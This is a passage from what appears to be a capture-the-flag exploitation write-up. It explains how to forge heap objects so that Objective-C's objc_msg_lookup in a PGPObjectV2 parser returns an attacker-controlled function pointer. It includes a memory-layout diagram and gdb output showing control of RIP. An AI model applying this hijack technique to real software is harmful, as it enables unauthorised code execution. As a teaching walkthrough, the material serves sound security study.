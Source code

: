Looks like if we allocate and setup objects correctly, we can return an arbitrary function pointer.  Based on this code, we want an overall structure that looks something like this:
```
            object
    +--------------------+
    | 0x4141414141414141 |
    +----------+---------+
               |
               |
               V                         object_we_control
        isa_we_control                +--------------------+
    +----------+---------+   +--> +00 |                    |
+00 |   doesn't matter   |   |        +--------------------+     +--------------------+
    +--------------------+   |    +08 | 0x4343434343434343 + --> |                    |
+08 |         ...        |   |        +--------------------+     +----------+---------+
    +--------------------+   |    +16 |                    |                |
+16 |         ...        |   |        +--------------------+                V
    +--------------------+   |    +24 |                    |      some function pointer
... |         ...        |   |        +--------------------+     +--------------------+
    +--------------------+   |    +32 |                    |     | 0x4444444444444444 |
+64 | 0x4242424242424242 + --+        +--------------------+     +--------------------+
    +--------------------+        +40 |    small number    |
                                      +--------------------+
```
(Note, in this diagram, I’ve used 0x4141414141414141, etc. as stand-ins for real pointers)

We know how to make raw `calloc`ations in the `setup_config` function, which is what I decided to use for this.  There are a couple of other spots where our data is placed on the heap, and those are likely useable as well. 
The `small number` just has to be small enough that we fail the first `if` check, and fall to the `else` code (`// goal`).

Once we have this object setup, `objc_msg_lookup` should be returning the function pointer we specified (`0x4444444444444444` in the diagram).  Lets take a look at what happens when we, literally, just set it to `0x4444444444444444`.
```
[----------------------------------registers-----------------------------------]
RAX: 0x4444444444444444 ('DDDDDDDD')
RBX: 0x11eba80 --> 0x11eaa60 --> 0x7fecae3f0700 --> 0x7fecadf701d8 (<default_malloc>:	push   rbp)
RCX: 0xca4
RDX: 0x11eaad0 ("AAAAAAAA\300\346\036\001")
RSI: 0x60ad20 --> 0x400000065
RDI: 0x11eba80 --> 0x11eaa60 --> 0x7fecae3f0700 --> 0x7fecadf701d8 (<default_malloc>:	push   rbp)
RBP: 0x7ffc73cb59d0 --> 0x7ffc73cb5a50 --> 0x7ffc73cb5aa0 --> 0x7ffc73cb5ae0 --> 0x0
RSP: 0x7ffc73cb5960 --> 0x40156b (<-[CCHBinaryDataReader initWithData:options:]>:	push   rbp)
RIP: 0x404c39 (<-[PGPObjectV2 parseObjectFromData:]+172>:	call   rax)
R8 : 0x4
R9 : 0x111e160 --> 0x0
R10: 0x60a8f1 ("PGPObjectV2")
R11: 0x246
R12: 0x7fecae354080 --> 0x7fecae353e00 --> 0x7fecadc18f80 (0x00007fecadc18f80)
R13: 0x40156b (<-[CCHBinaryDataReader initWithData:options:]>:	push   rbp)
R14: 0x0
R15: 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x404c2a <-[PGPObjectV2 parseObjectFromData:]+157>:
    call   0x401340 <objc_msg_lookup@plt>
   0x404c2f <-[PGPObjectV2 parseObjectFromData:]+162>:
    lea    rsi,[rip+0x2060ea]        # 0x60ad20 <_OBJC_SELECTOR_TABLE+32>
   0x404c36 <-[PGPObjectV2 parseObjectFromData:]+169>:	mov    rdi,rbx
=> 0x404c39 <-[PGPObjectV2 parseObjectFromData:]+172>:	call   rax
   0x404c3b <-[PGPObjectV2 parseObjectFromData:]+174>:	movzx  edx,al
   0x404c3e <-[PGPObjectV2 parseObjectFromData:]+177>:	mov    rax,QWORD PTR [rbp-0x58]
   0x404c42 <-[PGPObjectV2 parseObjectFromData:]+181>:	mov    QWORD PTR [rax+0x10],rdx
```